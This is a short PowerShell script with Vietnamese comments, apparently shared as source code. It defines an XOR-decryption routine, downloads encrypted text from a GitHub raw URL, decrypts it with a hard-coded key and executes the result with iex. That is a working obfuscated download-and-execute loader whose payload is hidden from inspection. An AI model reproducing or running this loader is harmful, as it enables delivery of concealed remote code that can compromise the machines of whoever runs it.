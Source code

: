 # Định nghĩa hàm XOR-Decryption
function XOR-Decryption {
    param (
        [string]$inputString,
        [string]$key
    )

    $inputBytes = [System.Convert]::FromBase64String($inputString)
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)
    $outputBytes = [byte[]]@()

    for ($i = 0; $i -lt $inputBytes.Length; $i++) {
        $outputBytes += [byte]($inputBytes[$i] -bxor $keyBytes[$i % $keyBytes.Length])
    }

    return [System.Text.Encoding]::UTF8.GetString($outputBytes)
}

# Tải và giải mã nội dung
$encryptedText = Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Ilovecodepython/Xor-test/main/content.txt" -UseBasicParsing
$key = "secretkey"
$decryptedContent = XOR-Decryption -inputString $encryptedText.Content -key $key

# Thực thi nội dung giải mã
iex $decryptedContent
